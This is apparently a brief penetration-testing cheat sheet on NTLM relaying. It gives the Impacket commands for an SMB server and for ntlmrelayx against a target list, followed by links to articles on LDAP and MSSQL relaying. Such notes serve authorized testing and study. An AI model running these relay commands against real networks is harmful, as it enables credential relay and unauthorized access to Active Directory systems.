# 02 - NTLM Relaying

```
$ smbserver.py -smb2support -port 8445 share .

$ ntlmrelayx.py -tf targets.txt -smb2support --no-http-server --no-wcf-server --no-raw-server
```

---
## References

### Praetorian

- [Praetorian: How to Exploit Active Directory ACL Attack Paths Through LDAP Relaying Attacks](https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/)

### Compass Security

- [Compass Security: Relaying NTLM to MSSQL](https://blog.compass-security.com/2023/10/relaying-ntlm-to-mssql/)